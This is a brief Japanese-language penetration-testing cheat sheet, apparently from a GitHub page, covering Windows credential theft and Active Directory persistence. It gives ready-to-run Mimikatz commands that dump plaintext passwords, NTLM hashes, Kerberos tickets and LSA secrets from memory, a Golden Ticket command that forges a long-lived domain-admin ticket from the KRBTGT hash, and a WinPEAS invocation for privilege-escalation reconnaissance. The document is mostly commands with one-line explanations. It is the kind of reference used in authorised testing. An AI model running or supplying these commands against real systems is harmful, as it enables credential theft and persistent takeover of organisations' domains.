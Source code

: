 ## Mimikatz
メモリから認証情報ダンプ
ローカルシステムのメモリから平文パスワード、NTLMハッシュ、Kerberosチケットなどを抽出
```powershell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets /export
lsadump::lsa
lsadump::secrets
```

## Golden Ticket 
永続的ドメイン管理者アクセス
ドメインのKRBTGTアカウントのハッシュを使用して、任意のユーザーとして長期間有効なTGTを偽造
- KRBTGTハッシュはDCSyncで取得
- Mimikatz (Windows)
```powershell
kerberos::golden /user:<ADMIN_USER_TO_CREATE> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt
```

## WinPEAS
Windowsホスト上で実行し、権限昇格や横展開に繋がる可能性のある情報を広範囲に収集
```powershell
.\winPEASx64.exe
```

